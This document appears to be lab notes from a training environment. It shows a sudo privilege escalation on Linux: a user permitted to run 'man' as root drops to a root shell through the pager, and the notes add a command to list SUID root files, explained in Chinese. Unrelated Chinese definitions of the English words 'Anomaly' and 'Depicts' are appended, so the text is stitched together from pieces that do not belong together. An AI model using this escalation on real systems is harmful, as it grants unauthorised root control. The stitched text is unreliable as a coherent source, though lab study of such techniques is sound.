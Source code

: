```
root@attackdefense:/root# su student
$ /bin/bash -i
student@attackdefense:/root$ sudo -l
Matching Defaults entries for student on attackdefense:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on attackdefense:
    (root) NOPASSWD: /usr/bin/man
```

```
student@attackdefense:/root$ sudo man cd
No manual entry for cd
student@attackdefense:/root$ sudo man nano
No manual entry for nano
student@attackdefense:/root$ sudo man vim
```

```
!/bin/bash
root@attackdefense:/root# id
uid=0(root) gid=0(root) groups=0(root)
root@attackdefense:/root# whoami
root
```

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

这个命令会在整个文件系统中查找属主为root且设置了setuid位的文件，并使用`ls -ldb`命令以长格式列出这些文件的详细信息。

- `find /` ：从根目录开始查找文件
- `-user root` ：查找属主为root的文件
- `-perm -4000` ：查找设置了setuid位的文件
- `-exec ls -ldb {} \;` ：对于每个找到的文件，执行`ls -ldb`命令并将其详细信息输出到终端上。`{}`表示找到的文件名，`\;`表示命令结束。

Anomaly 指的是偏离正常或预期的事物。它可以是一种不寻常的事件、行为或情况，与通常的模式或趋势不同。在数据分析中，异常可以是一个离群值或与数据集中其余数据点显著不同的数据点。

Depicts 意为描绘或描述。它通常用于说明一幅图片、绘画或照片所展现的内容，或者描述一件事情的细节和特征。该词语也可以用于说明一部电影或小说中的场景、角色或情节。


